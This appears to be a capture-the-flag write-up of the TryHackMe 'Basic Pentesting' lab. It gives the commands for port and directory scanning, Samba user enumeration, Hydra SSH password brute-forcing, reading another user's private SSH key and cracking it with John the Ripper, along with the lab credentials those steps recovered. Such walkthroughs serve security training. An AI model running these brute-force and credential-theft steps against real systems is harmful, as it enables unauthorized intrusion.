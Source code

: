 # Basic PenTesting

```bash
export IP=10.10.57.27
```


## Scans

### Nmap
Command:
```bash
nmap -sC -sV -oN scans/nmap.initial 10.10.57.27
```

Open Ports found:
```text
22 -- ssh
80 -- webpage
129 -- Samba
445 -- Samba
```

Hostname `BASIC2` 

### Gobuster

Command:
```bash
gobuster dir -w wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.57.27
```

Directories found:
```text
/development
```

### Enum4linux
Command:
```bash
enum4linux -a 10.10.57.27 | tee enum4linux.log
```

Users `kay` and `jan` found


## Hydra
Command:
```bash
hydra -l jan -P wordlists/rockyou.txt ssh://10.10.57.27 -t 4
```
and

```bash
hydra -l kay -P wordlists/rockyou.txt ssh://10.10.57.27 -t 4
```

credentials found: `jan:armando`


## SSH into Machine
```bash
ssh jan@10.10.57.27
```

### Linpeas
Command:
```bash
scp linpeas.sh jan@10.10.57.27:/dev/shm | tee linlog.txt
```

and on target machine:
```
cd /dev/shm
ls
./linpeas.sh
```

RSA key found:
```
jan@basic2:/home/kay/.ssh$ cat id_rsa
```

copied and pasted into `kay_id_rsa`, and marked as *read-only*:
```bash
chmod 600 kay_id_rsa
```

tried logging into ssh with `kay` user RSA key, but password protected

### JohnTheRipper

ssh2john.py to crack rsa key, and outputting to `forjohn.txt`
```bash
./ssh2john.py kay_id_rsa > forjohn.txt
```

JohnTheRipper on `forjohn.txt` with the `rockyou.txt` passwordlist
```bash
john forjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

credentials found:`kay:beeswax`


SSH into the machine as `kay` user:
```bash
ssh -i kay_id_rsa kay@10.10.57.27
```

```
kay@basic2:~$ ls
pass.bak
kay@basic2:~$ cat pass.bak 
```

final flag found:`heresareallystrongpasswordthatfollowsthepasswordpolicy$$`


---
[back to TryHackMe main page](thm.md)

[back to Index/Table of Contents](index.md)
